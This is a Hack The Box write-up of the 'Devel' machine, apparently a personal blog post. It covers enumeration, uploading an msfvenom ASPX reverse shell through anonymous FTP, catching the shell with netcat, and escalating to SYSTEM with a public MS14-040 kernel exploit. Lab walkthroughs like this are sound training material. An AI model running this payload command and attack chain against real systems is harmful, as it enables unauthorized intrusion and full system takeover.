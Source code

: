 ```yaml
---
layout: post
title: Hack The Box - Devel
---
```


This post is an overview of my time working through the box "Devel" found in [HackTheBox](https://www.hackthebox.eu)

---
[![](/assets/image/attachments/Pasted&#32;image&#32;20210707143314.png)](/assets/image/attachments/Pasted&#32;image&#32;20210707143314.png){:.glightbox}

### Nmap enumeration

```
# Nmap 7.91 scan initiated Mon Jun  7 11:30:40 2021 as: nmap -vvv -p 21,80 -sC -sV -oN 10.10.10.5 10.10.10.5
Nmap scan report for 10.10.10.5
Host is up, received syn-ack (0.044s latency).
Scanned at 2021-06-07 11:30:40 EDT for 8s

PORT   STATE SERVICE REASON  VERSION
21/tcp open  ftp     syn-ack Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp open  http    syn-ack Microsoft IIS httpd 7.5
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Jun  7 11:30:48 2021 -- 1 IP address (1 host up) scanned in 8.38 seconds

```

we see immediately that we have anonymous login to the ftp server:
```
ftp-anon: Anonymous FTP login allowed (FTP code 230)
```
and based on the file preview we are given:

```
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
```

I think it is quite likely this is the base directory of the webserver on port 80. Navigating to http://10.10.10.5/welcome.png I confirm this:

[![](/assets/image/attachments/Pasted&#32;image&#32;20210608132821.png)](/assets/image/attachments/Pasted&#32;image&#32;20210608132821.png){:.glightbox}

## Reverse shell
with this knowledge we can generate an aspx reverse shell with msfvenom, upload it via the ftp server and then triger it via the web server.

I used the following payload 
```
msfvenom -p windows/shell_reverse_tcp LHOST=tun0 LPORT=53 EXITFUNC=thread -f aspx -o shell.aspx
```

setting up a netcat listener we get a shell

```
└─$ nc -lvnp 53     
Ncat: Version 7.91 ( https://nmap.org/ncat )   
Ncat: Listening on :::53                                               
Ncat: Listening on 0.0.0.0:53                                             
Ncat: Connection from 10.10.10.5.                                          
Ncat: Connection from 10.10.10.5:49157.

Microsoft Windows [Version 6.1.7600]                                               
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
```

## Privilege escalation
I discovered that the machine had a .NET framework too old (v3.5) to support running the winPEAS binaries, so I had to resort to the bat file


```
> reg query "HKLM\SOFTWARE\Microsoft\Net Framework Setup\NDP" /s
.
.
.

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Net Framework Setup\NDP\v3.5\1033  
    Version    REG_SZ    3.5.30729.4926 
    CBS    REG_DWORD    0x1    
    Install    REG_DWORD    0x1   
    SP    REG_DWORD    0x1 

```

we see in the winPEAS output there are no hotfixes installed (in hindsight I should have noticed this from sysinfo)
```
Hotfix(s):                 N/A  
```

we are given many possible kernel exploits to ru nbecause of this

```
"Microsoft Windows 7 Enterprise   "                         
   [i] Possible exploits (https://github.com/codingo/OSCP-2/blob/master/Windows/WinPrivCheck.bat)  
   
MS11-080 patch is NOT installed XP/SP3,2K3/SP3-afd.sys)        
MS16-032 patch is NOT installed 2K8/SP1/2,Vista/SP2,7/SP1-secondary logon)     
MS11-011 patch is NOT installed XP/SP2/3,2K3/SP2,2K8/SP2,Vista/SP1/2,7/SP0-WmiTraceMessageVa)                                      
MS10-59 patch is NOT installed 2K8,Vista,7/SP0-Chimichurri)  
MS10-021 patch is NOT installed 2K/SP4,XP/SP2/3,2K3/SP2,2K8/SP2,Vista/SP0/1/2,7/SP0-Win Kernel)
MS10-092 patch is NOT installed 2K8/SP0/1/2,Vista/SP1/2,7/SP0-Task Sched)  
MS10-073 patch is NOT installed XP/SP2/3,2K3/SP2/2K8/SP2,Vista/SP1/2,7/SP0-Keyboard Layout)  
MS17-017 patch is NOT installed 2K8/SP2,Vista/SP2,7/SP1-Registry Hive Loading)  
MS10-015 patch is NOT installed 2K,XP,2K3,2K8,Vista,7-User Mode to Ring)   
MS08-025 patch is NOT installed 2K/SP4,XP/SP2,2K3/SP1/2,2K8/SP0,Vista/SP0/1-win32k.sys)    
MS06-049 patch is NOT installed 2K/SP4-ZwQuerySysInfo)                
MS06-030 patch is NOT installed 2K,XP/SP2-Mrxsmb.sys)                     
MS05-055 patch is NOT installed 2K/SP4-APC Data-Free)                  
MS05-018 patch is NOT installed 2K/SP3/4,XP/SP1/2-CSRSS)             
MS04-019 patch is NOT installed 2K/SP2/3/4-Utility Manager)  
MS04-011 patch is NOT installed 2K/SP2/3/4,XP/SP0/1-LSASS service BoF)
MS04-020 patch is NOT installed 2K/SP4-POSIX)   
MS14-040 patch is NOT installed 2K3/SP2,2K8/SP2,Vista/SP2,7/SP1-afd.sys Dangling Pointer)                                            
MS16-016 patch is NOT installed 2K8/SP1/2,Vista/SP2,7/SP1-WebDAV to Address)  
MS15-051 patch is NOT installed 2K3/SP2,2K8/SP2,Vista/SP2,7/SP1-win32k.sys) 
MS14-070 patch is NOT installed 2K3/SP2-TCP/IP)                       
MS13-005 patch is NOT installed Vista,7,8,2008,2008R2,2012,RT-hwnd_broadcast)   
MS13-053 patch is NOT installed 7SP0/SP1_x86-schlamperei)  
MS13-081 patch is NOT installed 7SP0/SP1_x86-track_popup_menu) 
```

with some google fu, I found a binary to exploit one of these [here](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS14-040). Uploading it via ftp and running it we get system. Now it is simply the case of reading the flags

```
c:\Users\babis\Desktop>type user.txt.txt                                       
type user.txt.txt                                         
<flag_here>
```

```
c:\Users\Administrator\Desktop>type root.txt         
type root.txt                                                                    
<flag_here> 
```

### Conclusion
Fun box, I ignored the obvious path to privesc for a while because well I thought it was too obvious, I won't make the same mistake again
